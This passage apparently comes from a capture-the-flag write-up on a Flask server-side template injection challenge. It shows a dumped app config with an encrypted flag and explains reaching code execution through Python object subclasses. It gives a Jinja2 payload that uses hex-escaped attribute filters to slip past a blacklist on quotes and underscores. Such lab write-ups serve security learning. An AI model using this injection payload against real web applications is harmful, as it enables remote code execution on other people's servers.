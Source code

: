 ```yml
            'SESSION_COOKIE_DOMAIN': False,
            'SESSION_COOKIE_PATH': None,
            'SESSION_COOKIE_HTTPONLY': True,
            'SESSION_COOKIE_SECURE': False,
            'SESSION_COOKIE_SAMESITE': None,
            'SESSION_REFRESH_EACH_REQUEST': True,
            'MAX_CONTENT_LENGTH': None,
            'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200),
            'TRAP_BAD_REQUEST_ERRORS': None,
            'TRAP_HTTP_EXCEPTIONS': False,
            'EXPLAIN_TEMPLATE_LOADING': False,
            'PREFERRED_URL_SCHEME': 'http',
            'JSON_AS_ASCII': True,
            'JSON_SORT_KEYS': True,
            'JSONIFY_PRETTYPRINT_REGULAR': False,
            'JSONIFY_MIMETYPE': 'application/json',
            'TEMPLATES_AUTO_RELOAD': None,
            'MAX_COOKIE_SIZE': 4093,
            'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"}>,
            'request': <Request 'http://127.0.0.1:10017/' [POST]>,
            'session': <SecureCookieSession {}>,
            'g': <flask.g of 'app'>
    } of None>
}
```

_Note: be sure to use double-quotes (`"`) as the single ones are blacklisted._

Here we find an encrypted flag again: `'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"`

## Decrypting the flag

Just like [yesterday's challenge]({{% ref "posts/adventofctf/2020/challenge_16.md" %}}), the flag is encrypted and we probably have to get the source again to get the key used to encrypt the flag. To get the source we first need arbitrary code execution.

### Arbitrary Code Execution (ACE)

Unfortunately, we cannot grab the `os` module using the same method as yesterday as it requirers the config class and we cannot easily get it. This means we have to find another way.

Another common trick to get the code execution is by having a look at the subclasses of the `object` class. We can get it by taking the following path: `''.__class__.__mro__[1].__subclasses__()`. This gets the class of `string`, reads it superclasses by getting `__mro__`, gets the `object` class from index `1` and then reads its superclasses by using the `__subclasses__()` method.

To get the subclasses, we first have to convert `''.__class__.__mro__[1].__subclasses__()` to an acceptable input. This becomes:

```text
{{ [""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")() }}
```
